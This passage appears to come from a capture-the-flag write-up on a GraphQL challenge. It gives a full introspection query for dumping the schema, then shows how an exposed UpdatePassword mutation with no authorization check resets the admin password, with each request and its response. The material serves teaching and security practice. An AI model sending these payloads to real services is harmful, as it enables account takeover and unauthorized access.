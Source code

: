 Based on the data format and the self-explanatory /graphql endpoint, we are dealing with graphQL. One of the key features of GraphQL is that is allows the client to define the structure of the data that it wants the server to return. 

Now that we know that graphQL is being used - we can modify and replay our POST request to explore this endpoint a little bit further. GraphQL has a feature called introspection that allows us to make queries against the underlying schema. If introspection is enabled - we can query the schema to understand all available queries, mutations, types, and fields.

The following is a common payload used to dump schema information from graphQL:
```
{"query":"{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

Sending this query to the server - we receive a 200 OK response and a large response object which contains a ton of information on the underlying schema. As we search through that information, we see a query in the schema that is interesting.

```
"name":"UpdatePassword","description":null,"args":[{"name":"username","description":null,"type":{"kind":"NON_NULL","name":null,"ofType":{"kind":"SCALAR","name":"String","ofType":null}},
```

It looks like there is a query for UpdatePassword that will presumably change a user's password. This is interesting, because after thoroughly exploring the web application - there doesn't appear to be any option for the user to perform this type of action. This functionality may have never meant to have been exposed or used by the user.

With the schema information - we can try and send a request to update our own user's password:
```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"navsec","password":"password"}}
```

Response:
```
{"data":{"UpdatePassword":{"message":"Password updated successfully!","token":null}}}
```

We've successfully reset our own password. Now we can try and change other users passwords
```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"password"}}
```

Response:
```
{"data":{"UpdatePassword":{"message":"Password updated successfully!","token":null}}}
```

We've reset the admin password and now we can login to the app as admin.
![Image](/images/2023-3-24-cyberapoc-23/Pasted-image-20230318142217.png)
